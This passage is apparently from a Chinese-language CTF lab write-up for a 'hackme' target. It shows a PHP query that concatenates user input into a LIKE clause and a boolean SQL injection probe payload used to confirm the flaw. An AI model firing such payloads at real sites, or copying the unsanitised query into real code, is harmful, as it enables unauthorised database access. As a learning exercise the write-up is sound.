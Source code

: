 ### 漏洞分析

进入靶机发现和 hackme1 一样，一个登录框

随便注册一下

```bash
123/123456
```

之后进入，尝试一下 SQL 注入，发现这次查询的语句和 hackme1 不一样了

[![](assets/1701678867-62b0d185f1877ef9572c0cfbee1aa140.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203507-8fecb678-8dea-1.png)

应该是利用了通配符%

SQL 语句是

```bash
$sql = "SELECT * FROM BOOKS WHERE book_name LIKE '".$input."%';"
```

尝试一下有没有 SQL 注入

```bash
OSI%' and '123' like '1
```

[![](assets/1701678867-4d18b72f98d8974fa926592c50a244b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203514-9467e70e-8dea-1.png)
